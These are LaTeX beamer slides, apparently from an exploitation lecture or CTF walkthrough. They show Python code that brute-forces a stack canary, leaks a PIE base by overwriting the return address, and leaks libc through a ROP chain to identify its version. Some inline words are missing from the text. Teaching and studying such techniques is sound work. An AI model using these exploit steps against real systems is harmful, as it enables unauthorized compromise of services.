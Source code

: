 \documentclass[aspectratio=169]{beamer}
\newcommand{\reg}[1]{\%\texttt{#1}}
\begin{document}
\begin{frame}[fragile]
	\frametitle{Leaking the Canary}
	\begin{itemize}
		\item Now just execute  in a loop:
	\end{itemize}
	\begin{codebox}{python}
# leak canary starting with value `starting` and byte `start_byte`
def leak_canary(starting = 0x0, start_byte = 2):
	current_canary = starting
	# leak byte by byte
	for i in range(start_byte, 9):
		log.progress(f"Trying to leak canary byte {i}")
		# try every value for current byte
		for b in range(0, 256):
			next_canary = b * pow(256, i-1) + current_canary
			if try_canary(next_canary, i):
				current_canary = next_canary
				break
	return current_canary\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Leaking the PIE base}
	\begin{itemize}
		\item Since we have NX, we need to either leak libc or PIE to be able to do something useful
		\item No easy way to leak libc for now, so leak PIE first
		\pause
		\item Idea: try overwriting \reg{rip} byte by byte.
		\item We can check success by trying to overwrite with address of  function:
	\end{itemize}
	\begin{codebox}{python}
def try_pie_base(base, byte):
    local_io = start()
    rop = p64(base + exe.symbols.welcome)[:byte]
    ret = run_rop(local_io, rop) # helper that overwrites canary
                                 # correctly and rip with contents of rop
	return b"server." in ret\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Leaking the libc}
	\begin{itemize}
		\item Now we only need to know where  is located in memory
		\item For this, though, we also need to know which libc we are dealing with
		\pause
		\item Use ROP to call  for a few symbols
		\item Then use libc database to determine version:
	\end{itemize}
	\begin{codebox}{python}
def leak_got_symbol(name):
	local_io = start()
	rop = ROP(exe)
	rop.puts(exe.got[name])
	rop.exit()
	ret = run_rop(local_io, rop.chain())
	last = ret.split(b"\n")[-2]
	return u64(last.ljust(8, b"\0"))\end{codebox}
\end{frame}
\end{document}
